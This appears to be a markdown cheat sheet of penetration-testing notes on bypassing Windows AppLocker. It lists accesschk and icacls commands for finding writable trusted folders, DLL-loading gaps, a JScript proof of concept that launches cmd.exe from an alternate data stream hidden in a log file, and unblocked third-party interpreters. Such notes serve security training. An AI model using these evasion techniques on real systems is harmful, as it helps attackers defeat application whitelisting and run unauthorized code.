 ## Applocker

### basic bypasses:
1) [Trusted Folders](#trusted-folders)
2) [Bypass with DLLs](#bypass-with-dlls)
3) [Alternate Data Streams](#alternate-data-streams)
4) [Third Party Executables](#third-party)

5) [Check Constrained Language mode](#ps-mode)
<br><br>


#### Brief backbround 


<img width="843" height="715" alt="image" src="https://github.com/user-attachments/assets/2e218654-251b-40ac-8ec6-3b9401c5b371" />


<br><br>
# Basic Bypasses


## Trusted Folders
<a name="trusted-folders"></a>

**The default rules for AppLocker whitelist all executables and scripts located in C:\Program Files, C:\Program Files (x86), and C:\Windows. **

1) Use Accesschk from SysInternals to look for writable folders.  

AccessChk -w to locate writable directories, -u to suppress any errors and -s to recurse through all subdirectories  

Ex: accesschk.exe "student" C:\Windows -wus

2) Use icalcs.exe to see if you can execute on that folder.  

Ex: icacls.exe C:\Windows\Tasks


<img width="847" height="273" alt="image" src="https://github.com/user-attachments/assets/e55741da-1d8b-46c5-8815-11838c26c5d4" />

3) Clearly move stuff to this folder to execute it.

<br><br>

## Bypass with DLL's
<a name="bypass-with-dlls"></a>

**The default ruleset doesn't protect against loading arbitrary DLLs.**

<img width="807" height="346" alt="image" src="https://github.com/user-attachments/assets/192ef529-54b1-4d0b-9cbe-35fe78e9809b" />
<br><br>

**When enabled though, default rules allow execution in C:\Windows\* AND C:\Program Files** this does not include C:\program files(x86)

<br><br>

## 12.2.3. Alternate Data Streams  
<a name="alternate-data-streams"></a>  

#### POC running .js file via wscript via ADS

**POC SCRIPT saved as test.js**
``` Javascript
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
```
<br><br>
<img width="785" height="250" alt="image" src="https://github.com/user-attachments/assets/a0c5021f-a6d8-478b-aeb4-978db4d802b9" />
<br><br>


To view AD streams, use /r for recursive: **dir /r "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log"**
<br><br>

To execute ADS: **wscript "C:\program files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.ks"**
<br><br>

<img width="866" height="253" alt="image" src="https://github.com/user-attachments/assets/1a06ac38-21e3-4828-92d4-a1cca632c340" />


## 12.2.4 Third Party Execution
<a name="third-party"></a>

**Third party frameworks like Python,Perl, Java and Microsoft Office VBA are NOT blocked by AppLocker**
<br><br><br>

## Powershell Execution policy

Three levels of protection via Constrained Language policy  

he first (and default) level, **FullLanguage**, allows all cmdlets and the entire .NET framework as well as C# code execution. By contrast, **NoLanguage** disallows all script text. **RestrictedLanguage** offers a compromise, allowing default cmdlets but heavily restricting much else.

``` powershell
$ExecutionContext.SessionState.LanguageMode
```
